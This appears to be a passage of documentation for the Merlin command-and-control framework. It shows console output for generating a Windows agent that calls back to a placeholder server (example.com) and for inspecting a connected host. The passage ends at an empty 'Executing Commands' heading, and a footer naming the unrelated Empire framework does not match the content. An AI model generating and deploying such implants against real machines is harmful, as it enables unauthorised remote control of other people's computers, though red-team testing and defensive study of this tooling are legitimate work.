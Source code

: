 ### Generating Agents

To generate an agent for Windows:

```
Merlin» agents

[INFO]  Available agent types:
[*]     HTTPS
[*]     HTTP
[*]     H2C

Merlin» use HTTPS

Merlin[agent/HTTPS]» generate windows amd64 https://example.com:443

[+] windows/amd64 agent generated at: /root/merlin/data/bin/agent.exe
```

### Agent Interaction

Once an agent connects back to the server:

```
[+] Received new agent connection from 192.168.1.10:50567
[+] Agent 694dfd87-... connected at 2023-03-15T14:32:40Z

Merlin» agents

[+] Agent Information:
==========================================================
  ID     | Status | Last Check-In | IP / Port           | OS / Arch  
==========================================================
  694dfd | Active | 2023-03-15    | 192.168.1.10:50567  | windows/amd64

Merlin» interact 694dfd

Merlin[agent/694dfd]» info

ID: 694dfd87-...
Platform: windows
Architecture: amd64
Username: DESKTOP-ABCDEF\user
IP: 192.168.1.10/24
Process Name: merlin.exe
Process ID: 4231
HTTP Host: https://example.com:443
Initial Check-in: 2023-03-15T14:32:40Z
Last Check-in: 2023-03-15T14:32:40Z
```

### Executing Commands


 [Version]: 4.6.0 BC Security | [Web]: https://github.com/BC-SECURITY/Empire